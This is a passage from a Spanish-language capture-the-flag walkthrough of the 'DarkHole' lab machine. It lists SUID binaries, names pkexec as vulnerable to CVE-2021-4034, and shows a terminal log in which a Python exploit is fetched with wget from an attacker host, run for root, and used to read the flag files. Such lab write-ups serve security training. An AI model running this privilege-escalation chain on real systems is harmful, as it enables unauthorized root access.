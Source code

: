 ```bash
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2074/usr/lib/openssh/ssh-keysign
/snap/core18/1944/bin/mount
/snap/core18/1944/bin/ping
/snap/core18/1944/bin/su
/snap/core18/1944/bin/umount
/snap/core18/1944/usr/bin/chfn
/snap/core18/1944/usr/bin/chsh
/snap/core18/1944/usr/bin/gpasswd
/snap/core18/1944/usr/bin/newgrp
/snap/core18/1944/usr/bin/passwd
/snap/core18/1944/usr/bin/sudo
/snap/core18/1944/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1944/usr/lib/openssh/ssh-keysign
```

Vemos que el binario `pkexec` tiene SUID activado, con lo cual es vulnerable `CVE-2021-4034`.

Nos descargamos el exploit escrito en python que tenemos en local sobre la máquina víctima, lo ejecutamos y obtenemos las flags del reto.

```bash
www-data@darkhole:/tmp$ wget 10.11.12.10/pke.py
wget 10.11.12.10/pke.py
--2025-02-06 18:41:39--  http://10.11.12.10/pke.py
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3.0K) [text/x-python]
Saving to: 'pke.py'

     0K ..                                                    100%  635M=0s

2025-02-06 18:41:39 (635 MB/s) - 'pke.py' saved [3068/3068]

www-data@darkhole:/tmp$ chmod +x pke.py
chmod +x pke.py
www-data@darkhole:/tmp$ ./pke.py
./pke.py
Do you want to choose a custom payload? y/n (n use default payload)
id
uid=0(root) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
root@darkhole:/tmp# cd /home/john
cd /home/john
root@darkhole:/home/john# cat user.txt
cat user.txt
DarkHole{You_Can_DO_It}
root@darkhole:/home/john# cd /root
cd /root
root@darkhole:/root# ls
ls
root.txt  snap
root@darkhole:/root# cat root.txt
```